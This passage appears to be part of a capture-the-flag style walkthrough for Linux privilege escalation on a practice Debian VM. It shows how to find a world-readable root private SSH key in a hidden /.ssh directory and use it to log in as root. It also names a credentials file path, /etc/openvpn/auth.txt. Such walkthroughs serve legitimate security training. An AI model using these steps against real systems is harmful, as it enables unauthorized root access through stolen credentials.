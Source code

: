 ```bash
```

Answer: `/etc/openvpn/auth.txt`

# [Task 18] Passwords & Keys - SSH Keys

Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:

```bash
ls -la /
```

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```bash
ls -l /.ssh
```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```bash
chmod 600 root_key
```

Use the key to login to the Debian VM as the root account (change the IP accordingly):

```bash
ssh -i root_key root@10.10.10.10
```

Remember to exit out of the root shell before continuing!

## #1 - Read and follow along with the above.

**On the server**

```bash
user@debian:~$ ls -la /
total 96
drwxr-xr-x 22 root root  4096 Aug 25  2019 .
drwxr-xr-x 22 root root  4096 Aug 25  2019 ..
drwxr-xr-x  2 root root  4096 Aug 25  2019 bin
drwxr-xr-x  3 root root  4096 May 12  2017 boot
drwxr-xr-x 12 root root  2820 Jun  1 01:48 dev
drwxr-xr-x 67 root root  4096 Jun  1 02:13 etc
drwxr-xr-x  3 root root  4096 May 15  2017 home
lrwxrwxrwx  1 root root    30 May 12  2017 initrd.img -> boot/initrd.img-2.6.32-5-amd64
drwxr-xr-x 12 root root 12288 May 14  2017 lib
lrwxrwxrwx  1 root root     4 May 12  2017 lib64 -> /lib
drwx------  2 root root 16384 May 12  2017 lost+found
drwxr-xr-x  3 root root  4096 May 12  2017 media
drwxr-xr-x  2 root root  4096 Jun 11  2014 mnt
drwxr-xr-x  2 root root  4096 May 12  2017 opt
dr-xr-xr-x 96 root root     0 Jun  1 01:48 proc
drwx------  5 root root  4096 May 15 06:41 root
drwxr-xr-x  2 root root  4096 May 13  2017 sbin
drwxr-xr-x  2 root root  4096 Jul 21  2010 selinux
drwxr-xr-x  2 root root  4096 May 12  2017 srv
drwxr-xr-x  2 root root  4096 Aug 25  2019 .ssh
drwxr-xr-x 13 root root     0 Jun  1 01:48 sys
drwxrwxrwt  2 root root  4096 Jun  1 02:14 tmp
```